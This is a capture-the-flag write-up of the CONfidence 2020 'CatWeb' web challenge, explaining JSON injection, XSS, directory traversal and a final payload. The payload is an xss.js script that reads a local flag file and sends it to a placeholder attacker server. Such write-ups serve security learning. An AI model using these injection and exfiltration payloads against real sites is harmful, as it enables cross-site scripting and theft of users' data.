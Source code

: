 ```yaml
---
title: "CONfidence 2020: CatWeb"
date: 2020-04-22T00:46:19-06:00
draft: false
author: "Jamvie"
feature_image: https://images.pexels.com/photos/1643456/pexels-photo-1643456.jpeg?auto=compress&cs=tinysrgb&dpr=2&h=650&w=940
tags: ["writeup", "web"]
---
```


I participated in CONfidence CTF 2020 teasers in March of this year. I was focusing mainly on this problem, and it really helped me broaden my skills in JSON-related attacks! I have never seen many JSON injections before this, so this was welcome practise. 
<!--more-->

Let's Begin!
----
The link to the webpage is: ```http://catweb.zajebistyc.tf/```

We have a basic webpage with photos of cute cats filtered by their color. The drop down menu will give us black, red, grey and white cats. At the bottom is a report button, which will take whatever input we get, send it to some server, and respond to us that our report has been...well. Reported. 

![HomePage](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/CatWeb_HomePage.png)


Checking out the response content as I was clicking about the page showed me the requests for the "kind" (colour) of cats I chose based on the drop down menu. The request was just a small JSON string stipulating what kind I asked for, and I guess the server takes that input and returns whatever. 

```
curl "http://catweb.zajebistyc.tf/cats?kind=grey"
```

That got me thinking, can I ask for cats of a kind not in the drop down menu? 
Editing the request to change the kind from a colour to just absolute garbage...

```
curl "http://catweb.zajebistyc.tf/?kind=djfa"
```
![brokenrequest](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/NotFound.png)

Aha! Our text got echoed back to us in the response. There isn't any input validation in the JSON request! This must be a way in. 

To test how far I could go with it, I decided to hide an XSS in the JSON, seeing as how the URL we are taken to after any sort of response also has the JSON text in it. 

I typed this in as the URL:

```
http://catweb.zajebistyc.tf/?","status":"ok","content":["\"<img src=deadbeef onerror=alert(document.title)> </img>],"ignore":"
```

If there was a JSON vulnerability here, then going to this website would load up an alert with the title of the webpage ("my cats"). What would happen is it would attempt to load an image from the source called "deadbeef", and when it can't find the source, it would load as an error. If the image loaded as an error, pop up an alert with the name of the webpage. 

![XSS](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/XSSJsonInCatWeb.png)


:) Great! There is definitely JSON injection in play here. Let's see what we can do with it! 

Using curl to delve deeper into the webpage, I tried to make it list directories with the command: 

```
curl "http://catweb.zajebistyc.tf/cats?kind=.."
```

![templates](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/CatWebTemplates.png)

I traversed through the directories, but in the templates subfolder...

![flagLocn](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/CatWebFlagLocn.png)

Aha! The ```flag.txt``` file is in there. Now we just need to somehow read it from the browser. The fact that I was able to find the local files like this means something: the path of templates looks alot like ```file:///app/templates/flag.txt``` - Note the root path name: file. A same-origin policy here could treat all files with this starting origin as from the same place. 


We can use this to our advantage: create an XSS attack on the ```file://``` path.

Since an XSS endpoint was found using the JSON vulnerabilities in the URL, and there exists a report function, this is all a pretty classic XSS attack from here:

Craft our payload script to fetch the flag.txt from ```file://```. Here's mine called (xss.js):

```javascript
url='http://yourServer.com/6060?'
fetch('file:///app/templates/flag.txt').then(resp=>resp.text()).then(flag=>fetch(url+(btoa(flag) || 'Nothing')));
```


Report this url with our payload in it:

```
file:///app/templates/index.html?", "status": "ok", "content":["\u0022><script src=http://yourServer.com:6060/xss.js></script>"],"ignore":"
```

Now we wait for our server to retrieve the flag for us once someone checks out our reported URL :)

```flag:p4{can_i_haz_a_piece_of_flag_pliz?}```


This was a cool challenge to do that really helped me stretch my XSS skills and teach me how to be thorough when scoping out webpages for possible XSS attacks. I quite enjoyed this challenge! Thank you to [P4](https://p4.team/) for hosting the CONfidence 2020 teaser :) 


Jam 


References
----
feature image credit: [Peng Louis](https://www.pexels.com/@peng-louis-587527) on Pexels
